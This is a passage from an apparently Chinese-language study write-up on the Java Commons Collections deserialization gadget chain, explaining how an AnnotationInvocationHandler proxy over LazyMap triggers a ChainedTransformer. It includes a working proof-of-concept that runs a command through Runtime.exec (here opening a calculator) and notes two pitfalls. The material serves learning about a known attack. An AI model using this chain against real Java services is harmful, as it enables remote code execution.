 ```java
  Object result = memberValues.get(member);

  if (result == null)
    throw new IncompleteAnnotationException(type, member);

  if (result instanceof ExceptionProxy)
    throw ((ExceptionProxy) result).generateException();

  if (result.getClass().isArray() && Array.getLength(result) != 0)
    result = cloneArray(result);

  return result;
}
```

且AnnotationInvocationHandler继承了InvocationHandler类，所以说AnnotationInvocationHandler其实是之前学习动态代理时的中间类（或者也叫处理器类），而我们知道，在动态代理中，**动态代理对象进行的每个方法调用都会被转发到中间类的invoke方法进行调用。**

所以我们可以构建一个实现了Array接口（其实单纯这步的话代理什么接口都无所谓）的代理对象，同时将AnnotationInvocationHandler作为中间类（处理器类），这样的话当我们执行Array接口的任意方法时就会调用AnnotationInvocationHandler的invoke方法，也就实现了命令执行。POC如下：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(
  new Transformer[]{new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
                                           new Object[]{"getRuntime",null}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})});
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put("value",1);
Map lazymap = LazyMap.decorate(hashMap, chainedTransformer);

Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> constructor = c.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
Object anno = constructor.newInstance(Retention.class,lazymap);

Array array = (Array) Proxy.newProxyInstance(Array.class.getClassLoader(), new Class<?>[] {Array.class}, (InvocationHandler) anno);
array.free();
```

这个地方我自己踩坑了两个地方：

1. 对于第二个参数，不能采用动态代理中经常使用的`Array.class.getInterfaces()`写法，因为Array本身就是一个接口，这种写法用于传入的是一个实例对象的，才能用`r.class.getInterfaces()`这种写法

2. 随后在调用任意方法时，我们只能调用无参数的方法，因为AnnotationInvocationHandler的invoke方法中如果参数列表长度不为0会抛出异常：

   ```java
   Class<?>[] paramTypes = method.getParameterTypes();  
   if (paramTypes.length != 0)
       throw new AssertionError("Too many parameters for an annotation method");
   ```
